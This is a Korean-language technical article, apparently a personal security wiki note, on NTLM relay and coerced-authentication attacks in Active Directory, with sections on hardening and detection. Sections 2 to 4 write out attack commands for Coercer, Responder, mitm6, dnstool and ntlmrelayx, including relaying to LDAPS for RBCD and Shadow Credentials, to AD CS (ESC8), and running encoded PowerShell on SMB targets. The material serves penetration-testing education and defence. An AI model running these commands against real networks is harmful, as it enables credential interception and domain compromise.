


> [!warning] 허가된 환경에서만 실습하세요
> 아래 기법은 **본인 소유 랩, GOAD, HTB 은퇴 머신, 명시적으로 서면 승인된
> 레드팀 범위**에서만 재현하세요. 운영 도메인에서 LLMNR 포이즈닝이나
> `mitm6`을 돌리면 **합법적인 클라이언트 트래픽을 가로채는 행위**이며, 업무
> 장애·개인정보 유출·법적 책임으로 직결됩니다. ntlmrelayx로 LDAP에 쓰는
> 조치(RBCD·Shadow Credentials)는 도메인 객체를 영구 변경하므로 롤백 계획을
> 먼저 합의하세요.

> [!summary] ⏱️ 5초 핵심 요약
> - **한 줄 비유**: NTLM 릴레이는 다른 사람의 사원증을 복사하는 공격이 아니라,
>   **옆 사람이 지문 인식기에 손가락을 대는 순간 그 뒤에 서서 전자 신호를 중간
>   문으로 돌려 보내는 중계기**입니다. 서명·채널 바인딩·EPA가 없으면 뒷문이
>   그대로 열립니다.
> - **성립 조건은 3개의 AND**: ① **릴레이 가능한 세션**(SMB 서명 없음, LDAP
>   서명/채널 바인딩 없음, HTTP EPA 없음) ② **인증 트래픽을 얻는 방법**
>   (강제 인증, 이름 해석 포이즈닝, mitm6) ③ **릴레이 대상의 권한**
>   (RBCD·Shadow Credentials·AD CS 등록·SMB 로컬 관리자).
> - **놓치기 쉬운 곳**: SMB 서명은 SMB에만, LDAP 서명은 LDAP에만 적용됩니다.
>   서버에서 서명을 켜도 **클라이언트(워크스테이션) 기본값이 꺼진 조직**이 많고,
>   HTTP AD CS Web Enrollment는 기본적으로 EPA가 꺼진 채로 설치됩니다.
> - **근본 조치**: **NTLM 사용량 감사(Event 8001~8004) → 서명·CBT·EPA를
>   GPO로 강제 → Coercion RPC 인터페이스 차단·패치 → 가능한 경로에서 NTLM
>   자체를 금지**. 끊어야 할 고리는 "인증 생성 지점"과 "릴레이 수신 지점" 둘
>   모두입니다.

[[AD 환경 Kerberos 체인 공격 — 위임 남용과 토큰 가장으로 DC 장악|Kerberos
체인 공격]]과 [[윈도우 AD 침투 — 자격증명 피벗·권한상승 3가지 기법|자격증명
피벗·권한상승]]이 "확보한 자격증명을 어떻게 쓸까"였다면, 이 글은 **"자격증명
없이 다른 계정의 인증을 중간에서 가로채 어떻게 권한을 상승시키는가"**를 다룹니다.
AD의 기본 구조(SPN, DACL, 트러스트)는
[[공격 체인 이전의 AD 아키텍처 기초 — Kerberos, NTLM, DACL·ACE, GPO·SYSVOL, 도메인 트러스트|AD 아키텍처 기초]]에서 확인하세요.

이 글의 모든 명령은 플레이스홀더(`<domain>`, `<dc>`, `<target>`)로 일반화했고,
예시 도메인은 `corp.local`, IP는 `10.0.0.0/24` 사설 대역을 사용합니다. 이 PC
에서는 AD 랩을 돌릴 수 없으므로 **도구 옵션과 문법은 공식 README·문서로
확인했으며, 실행 결과 자체는 미검증**입니다. 재현은 아래 "실습 환경" 절의
GOAD·HTB 은퇴 머신에서 진행하세요.

---

## 한눈에 보는 강제 인증·릴레이 기법 요약표

| 기법 | 필요 조건 | 얻는 것 | 끊어야 할 방어 지점 |
|---|---|---|---|
| **SMB 릴레이 → SMB** | 대상 호스트의 **SMB 서명 미강제** + 릴레이되는 계정이 대상의 로컬 관리자 | 대상에서 코드 실행, SAM 덤프 | SMB 서명 "항상 요구" GPO |
| **SMB/HTTP 릴레이 → LDAP(S)** | DC의 **LDAP 서명/CBT 미강제** + 머신 계정 또는 특권 계정 인증 | RBCD 설정, msDS-KeyCredentialLink 쓰기(Shadow Credentials) | LDAP Signing·Channel Binding GPO |
| **HTTP 릴레이 → AD CS Web Enrollment (ESC8)** | AD CS Web Enrollment 활성 + EPA 미적용 | 머신·사용자 이름의 유효 인증서 → PKINIT로 DC 장악 가능 | Web Enrollment 제거 또는 EPA |
| **HTTP 릴레이 → MSSQL** | 대상 MSSQL이 Windows 인증 허용 + 릴레이 계정 권한 | SQL 세션, xp_cmdshell 조건부 | MSSQL 전용 Kerberos, EPA, SQL 로그인 분리 |
| **MS-EFSR (PetitPotam)** | DC 또는 EFSRPC 노출 호스트 + 익명·인증된 세션 | 대상 머신 계정의 NTLM 인증 발생 | KB5005413 패치, RPC 필터, NTLM 차단 |
| **MS-RPRN (PrinterBug)** | 대상의 Print Spooler 활성 + 도메인 사용자 인증 | 대상 머신 계정의 NTLM 인증 발생 | Spooler 비활성, RPC Filter |
| **MS-DFSNM (DFSCoerce)** | 대상에 DFSN 네임스페이스 설정 | DC·파일서버 머신 계정 인증 | DFSNM RPC 필터, 패치 |
| **LLMNR/NBT-NS/mDNS** | 동일 브로드캐스트 도메인, 오타·실패 이름 해석 | 피해자 Net-NTLMv2 해시 | GPO로 LLMNR·NetBIOS 끄기 |
| **mitm6 (DHCPv6)** | 동일 L2, IPv6 비활성 아님(기본 활성), 인증 서버 노출 | 전 Windows 트래픽을 공격자 프록시로 유도 | RA Guard, DHCPv6 가드, IPv6 정책화 |
| **ADIDNS 레코드 등록** | 도메인 사용자 + ADIDNS zone 보호 미설정 | 임의 호스트명 가로채기 | ADIDNS ACL 강화, DnsAdmins 최소화 |

> [!important] "서명 켜져 있으니 안전"이라는 섣부른 결론 금지
> SMB 서명이 서버에서 "항상 요구"로 켜져 있어도 **LDAP·HTTP·RPC는 별개의 통로**
> 입니다. 경로별로 서명/CBT/EPA를 각각 확인해야 하며, "SMB로는 못 들어가니까
> 릴레이 안 되네요"라는 판단은 **ESC8·LDAPS·MSSQL 경로를 완전히 놓칠 수** 있습니다.

---

## 1. NTLM과 릴레이의 성립 조건 — 왜 통하는가

### 1.1 NTLM 핸드셰이크 요약

NTLM은 챌린지-응답 프로토콜입니다. 비밀번호 자체는 전송되지 않지만, **클라이언트가
서버에게 "자신이 그 비밀번호의 소유자임"을 서버가 보낸 챌린지에 대한
`HMAC-MD5(NT-hash, challenge + AV_PAIRs)`로 증명**합니다.



여기서 **서버의 신원과 챌린지는 암호학적으로 묶여 있지 않습니다.** 공격자가
챌린지와 응답을 받아 그대로 **다른 서버**로 재전송하면 그 서버 입장에서는
정상 인증으로 보입니다. 이것이 릴레이의 근원입니다.

### 1.2 각 프로토콜의 "서명"이 막는 것

| 통로 | 보호 기능 | 작동 방식 | 기본값 |
|---|---|---|---|
| SMB | SMB Signing | 각 메시지에 세션 키로 HMAC 삽입, 세션 중간 탈취 시 검증 실패 | DC는 "항상 요구", 멤버 서버·워크스테이션은 보통 꺼짐 |
| LDAP | LDAP Signing | SASL 바인드의 무결성 보호 | 기본 "협상"(서명 안 함 허용) |
| LDAPS | Channel Binding Token (CBT, EPA) | TLS 채널 바인딩을 NTLM AV_PAIRs에 포함, 다른 TLS 세션으로 릴레이 시 불일치 | 기본 비활성, [ADV190023](https://msrc.microsoft.com/update-guide/vulnerability/ADV190023) 권고 |
| HTTP/HTTPS | Extended Protection for Authentication (EPA) | 채널 바인딩 + 서비스 바인딩을 NTLM 토큰에 포함 | IIS 기본 비활성 (사이트별 수동 활성) |

**AV_PAIR의 `MsvAvChannelBindings`와 `MsvAvTargetName`**이 CBT·EPA의 코어입니다.
공격자가 중간에서 서로 다른 TLS 세션을 끼면 이 두 값이 맞지 않아 서버가 거부합니다.

### 1.3 "릴레이 가능한" 세션의 판정

ntlmrelayx는 세 가지를 보고 릴레이 가능성을 판단합니다.

1. **NEGOTIATE_SIGN / NEGOTIATE_SEAL이 요구되지 않음** → 서버가 서명을 강제하지 않음.
2. **TargetInfo에 채널 바인딩이 포함되어 있지 않음** → EPA/CBT 비활성.
3. **인증되는 계정이 대상에 유효한 권한을 가짐**.

열거는 다음 두 가지로 압축됩니다.

```bash
# SMB 서명·세션 암호화 상태 전수 조사 (NetExec)
nxc smb 10.0.0.0/24 --gen-relay-list relay_targets.txt

# 특정 DC의 LDAP 서명/CBT 요구 여부 확인
nxc ldap <dc> -u <user> -p '<pw>' -M ldap-checker
```

`nxc` 결과에서 `signing:False`로 나오는 호스트가 SMB 릴레이의 수신 후보입니다.
LDAP는 `ldap-checker` 모듈이 서명과 CBT 둘 다 리포트합니다. (NetExec 공식
문서: <https://www.netexec.wiki/smb-protocol/misc/generate-relay-list>)

- 출처: [Microsoft — NTLM authentication (MS-NLMP)](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-nlmp/b38c36ed-2804-4868-a9ff-8dd3182128e4), [ADV190023 — Microsoft guidance for LDAP channel binding](https://msrc.microsoft.com/update-guide/vulnerability/ADV190023), [KB4520412 — EPA 지원](https://support.microsoft.com/kb/4520412)

---

## 2. 인증 트래픽 획득 (A) — 강제 인증(Coercion)

### 2.1 원리

Windows의 많은 MS-RPC 인터페이스는 **원격 호스트가 대상이 지정한 UNC 경로로
자동 인증**하게 만드는 함수를 가집니다. 호출자는 이 함수를 익명 또는 **도메인
사용자 수준**에서 호출할 수 있고, 피해 호스트는 **자신의 머신 계정(`DC01$`,
`FS01$`)** 자격증명으로 UNC 서버에 NTLM 인증합니다. 머신 계정은 자기 자신에
대해 LDAP `msDS-AllowedToActOnBehalfOfOtherIdentity`(RBCD) 쓰기 권한을
가지므로, **그 머신 계정 인증을 LDAP로 릴레이하면 RBCD 설정으로 그 머신을
장악**할 수 있습니다.



### 2.2 주요 강제 인증 벡터

| 기법 | RPC 인터페이스 | 필요 권한 | 도구 |
|---|---|---|---|
| **PetitPotam** | MS-EFSR (`\PIPE\lsarpc`, `\PIPE\efsrpc`) `EfsRpcOpenFileRaw` 등 | 익명 또는 인증 사용자 (패치별 상이) | `PetitPotam.py`, `coercer coerce` |
| **PrinterBug** | MS-RPRN `RpcRemoteFindFirstPrinterChangeNotificationEx` | 도메인 사용자 | `SpoolSample.exe`, `rprn.py`, `coercer` |
| **DFSCoerce** | MS-DFSNM `NetrDfsRemoveStdRoot` 등 | 도메인 사용자 | `dfscoerce.py`, `coercer` |
| **ShadowCoerce** | MS-FSRVP | 도메인 사용자 | `shadowcoerce.py`, `coercer` |
| **WSPCoerce** | MS-WSP (Windows Search) | 도메인 사용자 | `coercer` 모듈 |

도구 통합판은 Coercer입니다. 공식 저장소: <https://github.com/p0dalirius/Coercer>.
Coercer는 "scan"(취약 메서드 열거)과 "coerce"(강제 인증) 두 하위 명령을 가집니다.

```bash
# 어떤 coercion 메서드가 열려 있는지만 확인 (덜 침습적)
coercer scan -u <user> -p '<pw>' -d <domain> -t <target>

# 특정 대상을 공격자 리스너(10.0.0.50)로 인증시키기
coercer coerce -u <user> -p '<pw>' -d <domain> -t <target> -l 10.0.0.50
```

세부 옵션은 `coercer -h` 와 [p0dalirius/Coercer README](https://github.com/p0dalirius/Coercer#readme)를
참조합니다. **실행 결과 자체는 미검증**이며, 각 도구는 MSRPC 호출 흐름만
담당하고 **"인증을 받는 쪽"은 별도 ntlmrelayx가 수신**합니다.

### 2.3 성립 조건과 패치 대응

| 기법 | 핵심 패치 / 비활성 방법 |
|---|---|
| PetitPotam | [KB5005413](https://support.microsoft.com/topic/kb5005413) 권고 (NTLM 인증 차단), 2022 후속 CVE들로 추가 변종 발견 — 가장 확실한 방어는 **DC로의 NTLM 인증을 정책으로 차단** |
| PrinterBug | `Print Spooler` 서비스 비활성 (DC는 기본 비활성 권장), RPC Filter로 `RpcRemoteFindFirstPrinterChangeNotification*` 호출 제한 |
| DFSCoerce | [KB5014677](https://support.microsoft.com/topic/kb5014677) 이후 일부 메서드 패치, RPC Filter로 MS-DFSNM 인터페이스 UUID 차단 |
| ShadowCoerce | FSRVP 서비스 비활성, RPC Filter |

RPC Filter 예시는 Microsoft의 [netsh rpc filter 가이드](https://learn.microsoft.com/en-us/windows/win32/rpc/registering-authentication-services)와
[akamai 연구팀의 RPC 필터 공개 룰셋](https://github.com/akamai/akamai-security-research/tree/main/rpc_toolkit)이 유용합니다.

- 출처: [SpecterOps — Relaying NTLM Authentication From SCCM Clients](https://posts.specterops.io/relaying-ntlm-authentication-from-sccm-clients-7f9ee6b47d0f) (관련 배경), [Coercer README](https://github.com/p0dalirius/Coercer), [PetitPotam 원본](https://github.com/topotam/PetitPotam), [Microsoft — Print Spooler 보안](https://learn.microsoft.com/en-us/windows-hardware/drivers/print/introduction-to-print-spooler)

---

## 3. 인증 트래픽 획득 (B) — 이름 해석 포이즈닝

### 3.1 LLMNR / NBT-NS / mDNS

Windows는 DNS 조회가 실패하면 **LLMNR(UDP 5355), NBT-NS(UDP 137), mDNS(UDP 5353)**
순으로 멀티캐스트/브로드캐스트에 "이 이름을 아는 사람?" 질문을 보냅니다.
공격자가 같은 L2에 있으면 "나다"라고 답하고, 피해자가 그 응답을 믿고
NTLM 인증을 시도합니다. 결과물은 **Net-NTLMv2 해시**이며 이것은 서버 챌린지를
포함한 응답 전체라서 **릴레이 또는 오프라인 크랙** 둘 다 가능합니다.

```bash
# Responder: 포이즈닝 + 해시 수집 (-A는 분석 모드, 실제 응답 안 함)
responder -I eth0 -A           # 먼저 어떤 요청이 떠다니는지 관측
responder -I eth0              # 실제로 응답 (포이즈닝)

# 릴레이에만 쓸 때는 포이즈닝은 Responder, 수신은 ntlmrelayx
# Responder.conf에서 SMB/HTTP = Off 로 두고 포이즈닝 서비스만 유지
```

Responder 공식 저장소: <https://github.com/lgandx/Responder>. `-A` 분석 모드로
먼저 환경을 보는 것은 **운영 네트워크에서 실수로 응답을 뿌리지 않기 위한
필수 단계**입니다.

### 3.2 mitm6 — DHCPv6로 "IPv6 기본 DNS"가 되기

최신 Windows는 IPv6를 기본 활성화하고 IPv4보다 선호합니다. `mitm6`은 **DHCPv6
응답으로 공격자를 기본 DNS 서버로 선언**해 모든 조직 내부 질의를 받아버립니다.
받은 질의에 자기 자신으로 응답한 뒤 HTTP/SMB를 ntlmrelayx로 넘깁니다.

```bash
# IPv6 DNS로 자리잡기 — corp.local 도메인에 한정
mitm6 -d corp.local

# 동시에 ntlmrelayx가 HTTP 인증을 받아 LDAPS로 릴레이
impacket-ntlmrelayx -6 -t ldaps://<dc> -wh fakewpad.corp.local --delegate-access
```

`-wh`는 WPAD 자동 설정 URL의 호스트명으로, 브라우저와 Windows의 **자동 프록시
탐지 경로**를 유도합니다. 공식 저장소: <https://github.com/dirkjanm/mitm6>.

### 3.3 ADIDNS 레코드 등록

AD 통합 DNS(ADIDNS)는 **도메인 사용자가 자기 이름의 DNS 레코드를 만들 수 있게**
기본 허용됩니다. 공격자가 `wpad`, `fileserver01` 같은 이름으로 A 레코드를 올리면
Responder 없이도 조직 전체가 공격자 IP로 접속합니다.

```bash
# dnstool.py (Kevin Robertson 기법 재구현)
dnstool.py -u 'corp.local\<user>' -p '<pw>' -a add -r wpad -d 10.0.0.50 <dc>
```

도구: <https://github.com/dirkjanm/krbrelayx>(dnstool 포함). 방어는
`DnsAdmins` 축소와 **ADIDNS 파티션의 `CreateChild` 권한 회수**입니다.

- 출처: [Microsoft — LLMNR 비활성](https://learn.microsoft.com/en-us/troubleshoot/windows-server/networking/disable-llmnr-via-group-policy), [dirkjanm — mitm6](https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/), [Kevin Robertson — ADIDNS 원본](https://www.netspi.com/blog/technical/network-penetration-testing/exploiting-adidns/)

---

## 4. ntlmrelayx 대상별 흐름

ntlmrelayx는 impacket에 포함된 릴레이 엔진입니다(공식: <https://github.com/fortra/impacket>,
파일 `examples/ntlmrelayx.py`). 수신 포트는 SMB 445, HTTP 80, HTTPS 443, WCF
등을 지원합니다. 대상(`-t` / `-tf`)은 스킴으로 구분합니다.

```bash
impacket-ntlmrelayx -tf relay_targets.txt   # SMB → SMB 릴레이 (기본)
impacket-ntlmrelayx -t ldaps://<dc> --delegate-access --escalate-user <attacker_user>
impacket-ntlmrelayx -t ldaps://<dc> --shadow-credentials --shadow-target <victim_user>
impacket-ntlmrelayx -t http://<ca>/certsrv/certfnsh.asp --adcs --template Machine
impacket-ntlmrelayx -t mssql://<sqlhost>
```

### 4.1 LDAP(S) — RBCD · Shadow Credentials

**가장 많이 쓰이는 조합**이 **머신 계정 Coercion → LDAPS 릴레이**입니다.

- `--delegate-access`: 공격자가 제어하는 계정(예: `attacker`)이 피해 머신에
  대해 **Resource-Based Constrained Delegation(RBCD)**을 설정하도록
  `msDS-AllowedToActOnBehalfOfOtherIdentity`에 쓰기. 이후
  `impacket-getST -spn cifs/<target> -impersonate administrator`로 TGS 확보.
- `--shadow-credentials`: 피해 사용자/머신의
  **`msDS-KeyCredentialLink`**에 공격자 공개키 등록. 이후 PKINIT로
  TGT·NTLM 해시 회수(UnPAC-the-hash).

RBCD는 피해 머신 계정이 **자기 자신의 속성을 쓸 수 있을 때** 성립합니다. 머신
계정은 기본적으로 자기 객체의 `Validated-SPN`·`User-Account-Restrictions`
등에 대한 쓰기를 가지지만 `AllowedToActOnBehalfOfOtherIdentity`는 **DC 권한
수준의 쓰기 또는 특정 ACE**가 있을 때 성립합니다. Coercion 산물은 머신 계정
인증이므로 그 머신이 "자기 자신"이고, 자기 자신에 대한 이 속성 쓰기는 거의
항상 허용됩니다 — 이것이 공격의 핵심 레버리지입니다.

### 4.2 SMB — 로컬 관리자 확보 시

```bash
impacket-ntlmrelayx -tf relay_targets.txt -c 'powershell -enc <b64>'
# 또는 SAM 덤프
impacket-ntlmrelayx -tf relay_targets.txt
```

릴레이된 계정이 대상의 **로컬 관리자**일 때만 실질 효과가 있고, 아니면 익명
수준으로 로그인됩니다. SMB 서명 "항상 요구"가 DC는 기본이지만 **파일서버/DB
서버의 서명 기본값**을 반드시 확인하세요.

### 4.3 HTTP → AD CS Web Enrollment (ESC8)

```bash
impacket-ntlmrelayx -t http://<ca>/certsrv/certfnsh.asp --adcs --template Machine
# PetitPotam으로 DC 머신 계정 인증을 발생시키면
# DC01$ 이름의 유효 인증서 획득 → PKINIT → TGT → UnPAC-the-hash → DC 해시
```

ESC8은 다음 글에서 더 깊게 다루지만, 이 글에서는 **HTTP CSRF 인증이 EPA 없이
NTLM을 받아들인다**는 점만 기억하세요. 방어는 **Web Enrollment 제거** 또는
**IIS 사이트별 EPA = Required** 설정입니다.

### 4.4 MSSQL

```bash
impacket-ntlmrelayx -t mssql://<sqlhost>
```

관리자급 릴레이가 성공하면 `enable_xp_cmdshell` → OS 명령 흐름으로 연결됩니다.
방어는 SQL Server의 **NTLM 비활성(Kerberos만 허용)**, **TLS + EPA**, 그리고
SQL 로그인과 도메인 로그인 계층 분리입니다.

### 4.5 자주 나는 오류 표

| 증상 | 원인 | 대응 |
|---|---|---|
| `SMB SessionError STATUS_ACCESS_DENIED` | 서명이 요구되거나 릴레이 계정이 권한 없음 | `--gen-relay-list`로 서명 꺼진 호스트부터 선별 |
| `LDAP Result: strongerAuthRequired` | DC가 LDAP Signing 강제 | LDAPS(:636) 대상 + CBT 미강제인지 확인, 그래도 실패하면 EPA/CBT 켜져 있음 |
| `KDC_ERR_PADATA_TYPE_NOSUPP` | PKINIT 지원 안 되는 KDC/시간차 | DC 시간 동기화, `w32tm`/`ntpdate`, 2분 이내 |
| ntlmrelayx에 **피해자 인증이 아예 안 들어옴** | Coercion 호출이 익명 거부됨, 또는 피해자가 공격자 IP로 라우팅 안 됨 | Coercer `-u` 인증 재시도, `ping`/라우팅 확인, `-wh` WPAD 호스트명 재설정 |
| `ERROR_INVALID_ADMIN_DOMAIN` (AD CS) | 템플릿명이 CA의 공개 템플릿과 불일치 | `certipy find`로 공식 템플릿명 확인 후 `--template` 지정 |
| `KRB_AP_ERR_MODIFIED` | 릴레이로 받은 NTLM이 PKINIT 분기에서 변조로 감지 | 릴레이 대상이 틀렸거나 TLS 서버명이 다름 — SPN/대상 호스트 재확인 |

- 출처: [impacket ntlmrelayx](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py), [dirkjanm — Shadow Credentials](https://dirkjanm.io/ntlm-relaying-to-ad-certificate-services/), [dirkjanm — krbrelayx(RBCD)](https://dirkjanm.io/krbrelayx-unconstrained-delegation-abuse-toolkit-release/)

---

## 5. 실습 환경 (공개 랩)

| 환경 | 다루는 기법 | 공식 문서 |
|---|---|---|
| [GOAD — "SEVENKINGDOMS" 시나리오](https://orange-cyberdefense.github.io/GOAD/) | PetitPotam, Shadow Credentials, LLMNR, ntlmrelayx → LDAP | GOAD README의 ADCS·Relay 챕터 |
| [GOAD-Light](https://github.com/Orange-Cyberdefense/GOAD) | 축소판, Coercion+Relay 기본 경로 재현 | 상동 |
| [HTB — Forest (은퇴)](https://www.hackthebox.com/machines/Forest) | ASREProast + Mimikatz + BloodHound (관련 AD 체인 기초) | HTB 공식 Writeups (요약판 공개) |
| [HTB — Sauna (은퇴)](https://www.hackthebox.com/machines/Sauna) | ASREProast + WinRM + DCSync | 상동 |
| [HTB — Monteverde (은퇴)](https://www.hackthebox.com/machines/Monteverde) | Azure AD Connect sync 계정 피벗 — 릴레이 전단 흐름 참고 | 상동 |
| [TryHackMe — Attacking Kerberos](https://tryhackme.com/room/attackingkerberos) | AS-REP/Kerberoast/Delegation 기초, Coercion 전 단계 | 방 공식 설명 |

이 PC에서 돌릴 수 없는 환경에서의 명령·옵션은 **각 도구 저장소의 README와
Microsoft Learn**을 기준으로 정리했습니다. 특히 Coercion 쪽은 패치와 변종이
자주 나오므로 교전 전 **각 CVE와 KB의 최신 상태**를 반드시 재확인하세요.

---

## 6. 하드닝 — "두 번 끊기"

공격은 **인증을 만들어내는 지점**과 **릴레이를 받는 지점** 둘 중 하나만
막아도 끊깁니다. 둘 다 끊는 것이 깊이 방어(defense in depth)의 기본입니다.

### 6.1 수신 측 (릴레이 대상)

| 보호 | 어떻게 켜는가 | 범위 |
|---|---|---|
| **SMB Signing 항상 요구** | GPO: `Computer Configuration → Policies → Windows Settings → Security Settings → Local Policies → Security Options → Microsoft network server: Digitally sign communications (always) = Enabled` | 모든 서버·워크스테이션 (DC는 기본) |
| **LDAP Signing 요구** | GPO: `Domain controller: LDAP server signing requirements = Require signing` | DC 전원 |
| **LDAP Channel Binding 요구** | GPO: `Domain controller: LDAP server channel binding token requirements = Always` ([ADV190023](https://msrc.microsoft.com/update-guide/vulnerability/ADV190023)) | DC 전원 |
| **IIS EPA = Required** | AD CS Web Enrollment, Exchange ECP·EWS 등 **NTLM 수용 IIS 사이트별** 수동 설정 | 사이트별 |
| **MSSQL 강한 인증** | `Force Encryption = Yes` + Kerberos SPN 등록 + NTLM 거부 또는 TLS+EPA | 각 인스턴스 |

### 6.2 발신 측 (Coercion/Poisoning)

| 보호 | 적용 |
|---|---|
| **LLMNR 비활성** | GPO `Turn off multicast name resolution = Enabled` |
| **NBT-NS 비활성** | NIC 설정 또는 `nbtstat -rr` 스크립트 배포, 레거시 앱 영향 선검증 |
| **mDNS 비활성 (Win10 1803+)** | 레지스트리 `HKLM\System\CurrentControlSet\Services\Dnscache\Parameters\EnableMDNS=0` |
| **IPv6 RA/DHCPv6 제어** | 스위치 RA Guard, DHCPv6 Guard; 완전 비활성은 Microsoft 비권장 |
| **Print Spooler 비활성 (서버)** | `Set-Service Spooler -StartupType Disabled; Stop-Service Spooler` (DC 기본 권장) |
| **RPC Filter** | `netsh rpc filter` 로 MS-EFSR/MS-RPRN/MS-DFSNM 인터페이스 UUID 차단 |
| **NTLM 감사 → 차단** | GPO `Network security: Restrict NTLM: Outgoing NTLM traffic to remote servers = Audit all` → 로그 분석 후 `Deny all accounts` 전환 |
| **AD CS Web Enrollment 제거** | 필요 없으면 Server Manager에서 역할 서비스 제거 |

### 6.3 ADIDNS

```powershell
# DnsAdmins 멤버십 최소화
Get-ADGroupMember -Identity "DnsAdmins"

# ADIDNS 파티션의 CreateChild 권한을 Authenticated Users에서 회수
# dsacls "DC=corp,DC=local,CN=MicrosoftDNS,DC=DomainDnsZones,DC=corp,DC=local"
#   /R "NT AUTHORITY\Authenticated Users"
```

이 조치는 **기존 레거시 레코드 등록 흐름에 영향을 줄 수 있으므로** 테스트
환경에서 1개 Zone으로 선검증 후 배포합니다.

- 출처: [Microsoft — Network security: Restrict NTLM](https://learn.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/network-security-restrict-ntlm-outgoing-ntlm-traffic-to-remote-servers), [Microsoft — EPA 가이드](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/component-updates/ldap-session-security-settings-and-requirements-after-adv190023), [SpecterOps — Hunting for NTLM Relay](https://posts.specterops.io/hunting-in-active-directory-unconstrained-delegation-forests-trusts-71f2b33688e1)

---

## 7. 탐지 — 이벤트 ID와 네트워크 시그니처

### 7.1 윈도우 이벤트 로그

| Event ID | 소스 | 의미 | 릴레이 상관관계 |
|---|---|---|---|
| 4624 | Security | 로그온 성공 | `LogonType=3`(Network), **`AuthenticationPackageName=NTLM`** 급증은 비정상 |
| 4625 | Security | 로그온 실패 | 같은 소스 IP에서 다수 계정에 실패 → 포이즈닝 정찰 |
| 4648 | Security | 명시적 자격증명 사용 | 머신 계정이 다른 호스트로 로그온 시도 |
| 5140 / 5145 | Security | 네트워크 공유 접근·세부 접근 | SYSVOL·C$에 머신 계정이 몰리면 릴레이 산물 |
| 4697 | Security | 서비스 설치 | 릴레이 후 RCE 단계 (예: psexec svc) |
| 4698 / 4702 | Security | 예약 작업 생성·수정 | 상동 |
| 8001~8004 | `Microsoft-Windows-NTLM/Operational` | NTLM 호출 감사 (서버/클라이언트/도메인별) | NTLM 사용 현황의 **유일한 공식 소스** |

GPO `Network security: Restrict NTLM: Audit ...`를 켜면 8001~8004가 채워집니다.
감사 로그가 쌓이면 `Deny` 전환의 영향도를 데이터로 예측할 수 있습니다.

### 7.2 네트워크 시그니처

```zeek
# Zeek: NTLM 인증에서 세션 암호화 플래그가 꺼진 경우 로그
# (zeek-ntlm 패키지 기본 로그 ntlm.log 의 negotiate_flags 필드 활용)
event ntlm_authenticate(c: connection, request: NTLM::AuthenticateRequest) {
    if ( ! (request$ntlm$negotiate_flags & 0x20000000) )  # NEGOTIATE_SEAL off
        print fmt("NTLM w/o SEAL from %s to %s", c$id$orig_h, c$id$resp_h);
}
```

Suricata/Snort 룰은 커뮤니티 배포본의 `emerging-exploit.rules`에서 `PetitPotam`,
`PrinterBug`, `DFSCoerce` 관련 SID들을 가져오는 것이 가장 빠릅니다
(ET OPEN: <https://rules.emergingthreats.net/open/>).

### 7.3 BloodHound로 공격 경로 미리 보기

[BloodHound CE](https://support.bloodhoundenterprise.io/hc/en-us/articles/17730587918107) /
[Legacy BloodHound](https://github.com/BloodHoundAD/BloodHound) 질의 예:

```cypher
// NTLM relay로 획득 가능한 RBCD 쓰기 ACE
MATCH p=(c:Computer)-[:WriteAccountRestrictions|GenericAll|GenericWrite]->(c)
RETURN p LIMIT 25

// Shadow Credentials 가능한 대상 (msDS-KeyCredentialLink 쓰기 ACE)
MATCH p=(a)-[:AddKeyCredentialLink|GenericAll|GenericWrite]->(t)
WHERE NOT a = t
RETURN p LIMIT 25
```

Edge 이름은 BloodHound 버전별로 조금씩 달라서 [공식 Edge 목록](https://support.bloodhoundenterprise.io/hc/en-us/articles/17322357790107)을
기준으로 사용 중인 데이터셋에서 **먼저 `MATCH ()-[r]-() RETURN DISTINCT type(r)`**
으로 실제 보유 edge를 확인하는 편이 안전합니다.

- 출처: [Microsoft — NTLM 감사 이벤트](https://learn.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/network-security-restrict-ntlm-audit-incoming-ntlm-traffic), [Zeek NTLM 분석기](https://docs.zeek.org/en/current/scripts/base/protocols/ntlm/), [SpecterOps — BloodHound Edges](https://support.bloodhoundenterprise.io/hc/en-us/articles/17322357790107)

---

## 8. 다음 단계로 이어지는 공격

- **AD CS로의 상승**: HTTP 릴레이 → Web Enrollment(ESC8)는
  [[AD 심화 — AD CS 인증서 공격 전수 정리]]에서 ESC1~ESC15와 함께 다룹니다.
  ESC8의 산물은 PKINIT용 인증서이고, 여기서 **UnPAC-the-hash**로 머신 계정의
  NTLM 해시가 떨어지면 DCSync로 바로 이어집니다.
- **Kerberos 체인**: 릴레이로 얻은 RBCD 또는 Shadow Credentials는
  [[AD 환경 Kerberos 체인 공격 — 위임 남용과 토큰 가장으로 DC 장악|Kerberos
